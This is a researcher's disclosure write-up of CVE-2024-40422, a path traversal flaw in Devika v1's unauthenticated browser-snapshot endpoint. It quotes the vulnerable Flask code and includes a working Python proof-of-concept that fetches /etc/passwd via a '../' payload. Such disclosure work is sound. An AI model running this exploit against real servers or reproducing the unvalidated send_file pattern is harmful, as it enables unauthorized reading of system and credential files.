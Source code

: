 ```yaml
---
title: Uncovering Path Traversal in Devika v1 A Deep Dive into CVE-2024-40422
category: EXPLOIT
date: 01/25/2025
---
```


# Uncovering Path Traversal in Devika v1: A Deep Dive into CVE-2024-40422

## A Researcher’s Insight

In the field of security research, applications often present fascinating challenges and sometimes reveal critical vulnerabilities. During my analysis of Devika v1, I uncovered a serious security flaw—CVE-2024-40422. This path traversal vulnerability highlighted how small oversights could lead to significant exposure risks. Here’s a detailed look into my research.

## The Discovery

While auditing the Devika v1 application, my focus landed on the `/api/get-browser-snapshot` endpoint. This API endpoint accepted a `snapshot_path` parameter, which seemed to control which file was being served. Testing revealed that this parameter lacked proper validation, allowing traversal of the directory structure to access restricted files.

Additionally, I discovered that the application did not implement any authentication mechanism. This absence meant that any user, authenticated or not, could directly interact with the vulnerable endpoint, significantly amplifying the risk.

The vulnerability itself was stark and impactful. By manipulating the `snapshot_path` input, I could access files like `/etc/passwd`, demonstrating a clear security issue.

## Breaking Down the Vulnerable Code

The vulnerability was rooted in this snippet of code:

**File:** [devika.py](https://github.com/stitionai/devika/blob/main/devika.py)  
**Lines:** 123-127  

```python
@app.route("/api/get-browser-snapshot", methods=["GET"])
@route_logger(logger)
def browser_snapshot():
    snapshot_path = request.args.get("snapshot_path")
    return send_file(snapshot_path, as_attachment=True)
```

Here, the `send_file` function directly consumed the user-provided `snapshot_path` without any validation or sanitization. This oversight enabled an attacker to provide inputs such as `../../../etc/passwd` to access sensitive system files.

## Reproducing the Issue

As part of my research, I created a Python script to demonstrate the exploit and validate the issue. Below is the proof of concept (PoC):

### Proof of Concept

```python
#!/usr/bin/python

import argparse
import requests

def exploit(target_url):
    url = f'http://{target_url}/api/get-browser-snapshot'
    params = {
        'snapshot_path': '../../../../etc/passwd'
    }

    response = requests.get(url, params=params)
    print(response.text)

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Explore the directory traversal bug.')
    parser.add_argument('-t', '--target', help='Enter the target URL (e.g., target.com)', required=True)
    args = parser.parse_args()

    exploit(args.target)
```

### Running the Script

1. Save the script as `exploit.py`.
2. Execute it with the target URL:
   ```
   python exploit.py -t target.com
   ```
3. The script retrieves the content of the `etc/passwd` file, effectively showcasing the issue.

This PoC highlights how an attacker could exploit the flaw to access arbitrary files on the server.

## Why This Matters

This vulnerability poses a significant threat:

- **Sensitive Data Exposure:** It allows attackers to read sensitive files such as configuration files or credentials.
- **Privilege Escalation Risks:** With access to critical files, an attacker could potentially escalate their privileges or further exploit the system.
- **Unrestricted Access:** The absence of authentication mechanisms exacerbates the severity, allowing anyone to exploit the issue without restriction.

### Severity
CVE-2024-40422 is rated as critical with a CVSS score of 9.1. The impact underscores the necessity of secure coding practices, particularly around file handling and access control.

## Final Thoughts

This research underscores the importance of thorough security reviews and rigorous input validation in software development. The Devika v1 vulnerability serves as a cautionary tale and a learning opportunity for developers and researchers alike.

For detailed information, check out the [GitHub advisory](https://github.com/advisories/GHSA-39m5-v8xj-6c9r). If you have insights or questions, feel free to connect with me on [X/Twitter](https://x.com/alpernae). Let’s make the digital world safer, one vulnerability at a time.
